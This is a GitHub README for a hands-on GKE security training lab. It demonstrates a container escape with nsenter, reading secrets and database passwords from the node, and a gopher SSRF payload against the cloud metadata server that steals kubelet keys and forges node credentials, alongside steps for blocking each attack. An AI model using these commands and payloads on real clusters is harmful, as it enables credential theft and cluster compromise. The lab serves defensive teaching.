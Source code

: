 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
  - RBAC
  - exec

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
<img src="https://github.com/rung/training-gke-security/raw/master/img/web-preview.png" width="320">

#### Input url (for testing)
```
https://www.google.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

- Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
cloud beta container node-pools update [NODEPOOL_NAME] \
  --cluster=[CLUSTER_NAME] \
  --workload-metadata-from-node=GKE_METADATA_SERVER
```

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
